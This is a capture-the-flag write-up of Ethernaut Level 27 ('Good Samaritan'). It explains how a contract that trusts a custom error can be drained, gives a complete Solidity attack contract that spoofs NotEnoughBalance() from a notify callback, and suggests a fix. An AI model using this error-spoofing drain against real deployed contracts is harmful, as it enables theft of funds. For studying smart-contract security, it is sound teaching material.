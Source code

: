 ```yaml
---
title: Level 27 - Good Samaritan
slug: level-27
published: 06-09-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut27.svg
---
```


## Objectives

1. Drain all tokens from the _Good Samaritan_.

## Vulnerabilities

### Expecting that errors comes from a specific contract

Whenever an transaction is revert with a _custom error_. This error **bubbles up** until it's caught by a _try catch_. When multiple layers deep,
the _try catch_ will only know what error is thrown but not from when it was reverted. This can be exploited.

## Exploit

We can see that the following function from `GoodSamaritan` will transfer all of the `GoodSamaritan` tokens if a specific error it thrown.
This will be our _vector of attack_.

```solidity
function requestDonation() external returns(bool enoughBalance){
    // donate 10 coins to requester
    try wallet.donate10(msg.sender) {
        return true;
    } catch (bytes memory err) {
        if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
            // send the coins left
            wallet.transferRemainder(msg.sender);
            return false;
        }
    }
}
```

Another point to notice is that if `msg.sender` in a _contract_, it will be notified by `INotifyable`.

```solidity
function transfer(address dest_, uint256 amount_) external {
    uint256 currentBalance = balances[msg.sender];

    // transfer only occurs if balance is enough
    if(amount_ <= currentBalance) {
        balances[msg.sender] -= amount_;
        balances[dest_] += amount_;

        if(dest_.isContract()) {
            // notify contract 
            INotifyable(dest_).notify(amount_);
        }
    } else {
        revert InsufficientBalance(currentBalance, amount_);
    }
}
```

1. Let's write and deploy a _hack_ contract that will request funds from `GoodSamaritan`, since it's a contract and not 
a EOA, `.notify(amount_)` will be called. Let's use that to `revert` with the `NotEnoughBalance()` error.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "./GoodSamaritan.sol";

contract GoodSamaritanHack {
    GoodSamaritan target;

    constructor(address targetAddress){
        target = GoodSamaritan(targetAddress);
    }

    // Same error as in wallet
    error NotEnoughBalance();

    function Drain() external {
        target.requestDonation();
    }

    function notify(uint256 amount) external pure {
        // the if is there to revert donate10 but not transferRemainder
        if(amount == 10) {
            revert NotEnoughBalance();
        }
    }
}
```

2. All that's left is calling the `Drain` function from our _hack contract_.

## Suggested 

1. Modify `donate10` to return a bool if the transaction succeeded or not. This way, the bool value can be 
listened to instead of the specific error message.

## Further reading

- Examples of custom error messages <ExternalLink href={"https://solidity-by-example.org/error/"} />

